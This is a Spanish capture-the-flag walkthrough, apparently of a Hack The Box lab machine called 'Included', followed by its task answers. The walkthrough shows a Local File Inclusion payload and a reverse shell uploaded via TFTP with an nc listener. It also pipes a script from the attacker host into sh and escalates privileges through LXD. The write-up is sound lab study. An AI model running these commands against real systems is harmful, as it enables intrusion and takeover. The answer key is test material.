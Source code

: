 # Included

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **PHP**: PHP es un lenguaje de programación ampliamente utilizado para el desarrollo web, especialmente en aplicaciones dinámicas. Debido a su gran flexibilidad, es común encontrar aplicaciones personalizadas que no siguen las mejores prácticas de seguridad. Esto puede generar vulnerabilidades como inyecciones de código o fallos en el manejo de datos sensibles. La seguridad en aplicaciones PHP requiere configuraciones cuidadosas, validación de entrada y el uso de buenas prácticas en el manejo de sesiones y contraseñas.
  * **Custom Applications (Aplicaciones Personalizadas)**: Las _Custom Applications_ son aquellas aplicaciones desarrolladas específicamente para satisfacer necesidades particulares de una organización. Estas aplicaciones pueden carecer de las mejores prácticas de seguridad, lo que puede generar vulnerabilidades significativas si no se gestionan correctamente. Además, debido a que son diseñadas a medida, es más difícil llevar a cabo auditorías de seguridad y mantenerlas actualizadas.
  * **Protocols (Protocolos)**: Los protocolos son un conjunto de reglas y estándares que permiten la comunicación entre dispositivos en una red. Ejemplos de protocolos incluyen TCP/IP, HTTP, SMB y FTP. Comprender cómo funcionan los protocolos es clave en las pruebas de penetración, ya que a menudo son los puntos de acceso utilizados por los atacantes. Una configuración incorrecta de estos protocolos puede crear vectores de ataque, permitiendo que los atacantes exploten vulnerabilidades.
  * **Apache**: Apache es uno de los servidores web más utilizados, conocido por su flexibilidad y su capacidad para manejar aplicaciones web dinámicas y estáticas. Sin embargo, si no se configura adecuadamente, Apache puede ser vulnerable a una variedad de ataques como inyecciones SQL, ejecución remota de código o divulgación de información sensible. Asegurarse de que Apache esté correctamente configurado y actualizado es esencial para mitigar estos riesgos.
  * **TFTP (Trivial File Transfer Protocol)**: TFTP es un protocolo de transferencia de archivos simplificado, usado principalmente en redes para transferir archivos de configuración o sistemas operativos. A pesar de su utilidad, TFTP no proporciona mecanismos de seguridad, como autenticación o cifrado, lo que lo convierte en un blanco fácil para ataques. El uso de TFTP debe ser restringido a redes internas o entornos controlados, donde no haya riesgos de exposición.
  * **LXD**: LXD es una herramienta de contenedores para sistemas Linux que permite ejecutar aplicaciones de manera aislada, ofreciendo un entorno seguro y eficiente. Aunque LXD es útil para gestionar contenedores y facilitar el aislamiento de aplicaciones, una configuración incorrecta puede exponer los contenedores a vulnerabilidades, permitiendo a un atacante escapar del contenedor y acceder a recursos no autorizados del sistema host.
  * **Reconnaissance (Reconocimiento)**: El _Reconocimiento_ es una fase crítica en las pruebas de penetración, en la que se recopila toda la información posible sobre el objetivo, como puertos abiertos, servicios en ejecución y configuraciones de seguridad. Las herramientas y técnicas como escaneo de puertos, análisis de tráfico y descubrimiento de versiones son esenciales en esta fase para identificar vectores de ataque y debilidades en la infraestructura.
  * **Local File Inclusion (LFI)**: La vulnerabilidad de _Local File Inclusion_ ocurre cuando un atacante puede incluir archivos locales en un servidor a través de una entrada de usuario no validada. Esto puede permitir la ejecución de código malicioso o la exposición de archivos sensibles, lo que compromete la seguridad de la aplicación. La mitigación de LFI implica validar estrictamente las rutas de archivos y emplear medidas de seguridad adecuadas para restringir el acceso a archivos del sistema.
  * **Clear Text Credentials (Credenciales en Texto Claro)**: Las _Clear Text Credentials_ son credenciales que se transmiten sin cifrado, lo que permite a un atacante interceptarlas fácilmente en una red. Esta vulnerabilidad es común en protocolos como HTTP o FTP si no se utiliza cifrado. Es fundamental que las credenciales se manejen de manera segura, utilizando protocolos como HTTPS o SSH para cifrar la información sensible durante la transmisión.
  * **Arbitrary File Upload (Carga Arbitraria de Archivos)**: La _Arbitrary File Upload_ es una vulnerabilidad que permite a un atacante cargar archivos no autorizados en un servidor, lo que puede incluir scripts maliciosos, archivos ejecutables o incluso archivos con configuraciones dañinas. Esta vulnerabilidad es peligrosa porque permite la ejecución remota de código en el servidor. Para mitigarla, es importante validar los tipos de archivo y las extensiones antes de permitir que los usuarios carguen archivos en el servidor.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.69.1
```

<figure><img src="../../../.gitbook/assets/image (1208).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.69.1
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.&#x20;

<figure><img src="../../../.gitbook/assets/image (1209).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **80** perteneciente al servicio **HTTP** está abierto. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/image (1210).png" alt=""><figcaption></figcaption></figure>

Tenemos la vulnerabilidad Local File Inclusion.

```bash
http://10.129.69.1/?file=/etc/passwd
```

<figure><img src="../../../.gitbook/assets/image (1211).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos un servicio **tftp** por lo que podemos subir una Reverse Shell.

{% embed url="https://www.revshells.com/" %}

<figure><img src="../../../.gitbook/assets/image (1212).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en esucha.

```bash
http://10.129.69.1/?file=/var/lib/tftpboot/hola.php

nc -lnvp 4444
```

<figure><img src="../../../.gitbook/assets/image (1213).png" alt=""><figcaption></figcaption></figure>

Vamos al directorio `/var/www/html` para ver el contenido **.htpasswd**.

<figure><img src="../../../.gitbook/assets/image (1214).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../../.gitbook/assets/image (1215).png" alt=""><figcaption></figcaption></figure>

Nos descargamos **LinPeas.sh**.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20240131-07961633/linpeas.sh
```

Nos la trasladamos a mike.

```bash
python3 http.server
#Terminal Mike
curl http://10.10.16.35:8000/linpeas.sh | sh
```

<figure><img src="../../../.gitbook/assets/image (1216).png" alt=""><figcaption></figcaption></figure>

En nuestra máquina local.

```bash
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-14 111913.png" alt=""><figcaption></figcaption></figure>

En nuestra máquina remota.

```bash
wget http://10.10.16.35:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

<figure><img src="../../../.gitbook/assets/image (1217).png" alt=""><figcaption></figcaption></figure>

Ejecutamos y creamos el contenedor para ponerlo en marcha.

```bash
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias tidur
lxc init tidur my-container
lxc start my-container
lxc exec my-container -- /bin/sh
```

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-14 112334.png" alt=""><figcaption></figcaption></figure>

```bash
 cat /root/root.txt
```

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-14 112911.png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Task 1:**

¿Qué servicio está ejecutándose en la máquina objetivo a través de UDP?\
**Respuesta: TFTP**

**Task 2:**

¿A qué clase de vulnerabilidad es susceptible la página web que está alojada en el puerto 80?\
**Respuesta: Local File Inclusion (LFI)**

**Task 3:**

¿Cuál es la carpeta del sistema por defecto que TFTP usa para almacenar archivos?\
**Respuesta: /var/lib/tftpboot/**

**Task 4:**

¿Qué archivo interesante se encuentra en la carpeta del servidor web y puede ser utilizado para el Movimiento Lateral?\
**Respuesta: .htpasswd**

**Task 5:**

¿A qué grupo pertenece el usuario Mike y que puede ser explotado para Escalada de Privilegios?\
**Respuesta: LXD**

**Task 6:**

Cuando usamos una imagen para explotar un sistema a través de contenedores, buscamos una distribución muy pequeña. Nuestra favorita para esta tarea tiene el nombre de una montaña. ¿Cuál es el nombre de esta distribución?\
**Respuesta: Alpine**

**Task 7:**

¿Qué bandera debemos establecer en el contenedor para que tenga privilegios de root en el sistema host?\
**Respuesta: security.privileged=true**

**Task 8:**

Si el sistema de archivos raíz está montado en /mnt en el contenedor, ¿dónde se puede encontrar la bandera raíz en el contenedor después de montar el sistema host?\
**Respuesta: /mnt/root**

